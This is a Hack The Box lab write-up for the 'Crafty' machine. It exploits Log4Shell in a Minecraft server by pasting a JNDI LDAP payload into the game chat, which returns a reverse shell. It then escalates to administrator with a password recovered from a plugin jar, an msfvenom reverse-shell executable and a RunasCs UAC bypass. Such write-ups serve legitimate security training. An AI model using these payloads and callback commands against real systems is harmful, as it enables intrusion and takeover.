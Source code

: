 # HTB - Crafty

### TL;DR
This is a gaming Windows Server 2019 running Minecraft 1.16.5, which is known to be affected by the Log4Shell vulnerability (CVE-2021-44228). There are several POCs in Github which can be used to exploit the Log4Shell vulnerability and get a foothold in the server. The administrator password is found in a `.jar` file in the file system.<br>

### KEYWORDS
Minecraft, Log4Shell, CVE-2021-44228, Java decompiler.

### REFERENCES
https://www.cvedetails.com/cve/CVE-2021-44228/<br>
https://github.com/kozmer/log4j-shell-poc<br>
https://www.youtube.com/watch?v=7qoPDq41xhQ<br>
https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz<br>
https://tlauncher.org/<br>

### ENUMERATION
Launch a port scan with `nmap`
```markdown
> nmap $target -p- --min-rate=5000 -Pn --open --reason 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-11 04:05 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up, received user-set (0.081s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE   REASON
80/tcp    open  http      syn-ack
25565/tcp open  minecraft syn-ack

Nmap done: 1 IP address (1 host up) scanned in 44.87 seconds
```
Enumerate the open ports.
```markdown
> nmap $target -p80,25565 -sV -sC -Pn -vv 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-11 04:07 EST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up, received user-set (0.091s latency).
Scanned at 2024-02-11 04:08:00 EST for 15s

PORT      STATE SERVICE   REASON  VERSION
80/tcp    open  http      syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
25565/tcp open  minecraft syn-ack Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 16.07 seconds
```
Update the `/etc/hosts` file and enumerate the site with Firefox. We see information about a Minecraft server running at `play.crafty.htb`. There are no more interaction points with the backend in the website. 

![Untitled000](https://github.com/g1vi/AllTheWriteUps/assets/120142960/f3c78f06-36c8-403c-aad8-8d954aff2230)

In summary, we have found a Minecraft server v1.16.5 running on port 25565.

### USER
Searching for Minecraft 1.16.5 vulnerabilities in the web, we find out that versions from 1.8.8 to 1.18.1 were affected by Log4Shell vulnerability, a critical bug in the Apache log4j java logging library (https://www.cvedetails.com/cve/CVE-2021-44228/)<br>
<br>
If you search in GitHub you will find several POCs for Log4Shell exploitation, and there are also tutorials in Youtube, such as this: https://www.youtube.com/watch?v=7qoPDq41xhQ<br>
<br>
We will use this POC: https://github.com/kozmer/log4j-shell-poc. If you pay attention to documentation, there is an example exploiting the CVE in the Minecraft chat. Note that the `poc.py` cannot be used off-the-self, if you inspect carefully the source code you will see 2 modifications are needed.<br>
<br>
First, the POC is designed to be used in Linux, but since `crafty.htb` is a Windows machine, a first modification is needed to adapt the exploit part to the Windows systems (replace `/etc/sh` with `cmd`.

![Untitled100](https://github.com/g1vi/AllTheWriteUps/assets/120142960/595bc7d5-b4b5-4193-90b8-05d688d1a08f)

Next, according to the author you need to copy your version of Java in the repository root directory. The author provides a link to Oracle but, since registration is required, another one was used: https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz<br>
<br>
Follow the author instructions: unpack the Java package in the repository root folder and rename the directory as `./jdk1.8.0_20`, to match the Java path used in the source code. Alternatively, you can leave the directory named as you want and modify the source code accordingly.<br>
<br>
Once finished, verify Java is successfuly installed.
```markdown
> ./jdk1.8.0_20/bin/java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
```
Now run the exploit.
```markdown
> python3 poc.py --userip <your kali ip here> --webport 8000 --lport 1919

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.xxx.xxx:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The POC automatically starts an LDAP server on ports 1389 and also generates a payload called `Exploit.class` which will be served on an HTTP server running on port 8000.<br>

![Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/744297ee-f20b-4c56-8e29-ab0761d7ceae)

You also need to start a listener on port 1919 (this port can be modified with the `–lport` option).<br>
<br>
The POC provide the payload we need to inject in the Minecraft chat.
```markdown
${jndi:ldap://10.10.xxx.xxx:1389/a}
```
Next step is to join a game in the Minecraft server. For this, download a Minecraft client such as this: https://tlauncher.org/en/download_1/minecraft-1-16-5_12582.html. Choose the version that suits your platform, in this case we will use the `.jar` Linux version available here: https://tlauncher.org/jar<br>
<br>
Unzip and run the client.
```markdown
> java -jar TLauncher-2.895.jar
```
Once the client start, make sure you install the Minecraft version 1.65.5, which is the one that matches the one running in the server.

![Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/0781dd16-a360-4968-8270-15dbdcea5f40)

Once the installation finishes, click on "Enter the game". In the startup screen click on "Multiplayer" and add a new server `play.crafty.htb`. Join the server and as soon as the game starts press "T" to open the chat and enter the payload.

![Untitled00](https://github.com/g1vi/AllTheWriteUps/assets/120142960/b04d56c2-6a51-4265-84a7-0d7ab4805c6d)

When the payload is sent a reverse shell is received on port 1919, it can be used to get the user flag.

### SYSTEM
Start from the user shell and take the opportunity to enumerate the system.
```markdown
> systeminfo

Host Name:                 CRAFTY
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,369 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,729 MB
```
Locate the file `c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar` in the system. Inspect the file and extract the class `/htb/crafty/playercounter/Playercounter.class`. Decompile using whatever method you like, for example, using an online decompiler: https://www.decompiler.com/

![Untitled3](https://github.com/g1vi/AllTheWriteUps/assets/120142960/aba40d7b-3590-47c7-9452-d34e004947eb)

Looks like credential `s67u84zKq8IXw` is used to connect to an internal service running on 27015 for management purposes.<br>
<br>
Generate a payload with `msfvenom`
```markdown
> msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.34 lport=9999 -f exe -a x64 --platform windows -o shell.exe
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
Transfer `shell.exe` and `runascs.exe` (https://github.com/antonioCoco/RunasCs) to the victim and run them.
```markdown
.\runascs administrator s67u84zKq8IXw shell.exe --bypass-uac
```
A reverse shell is received on port 9999.

![Untitled4](https://github.com/g1vi/AllTheWriteUps/assets/120142960/03317f4e-1784-4e5a-a522-0029093cf0fd)

You are root.
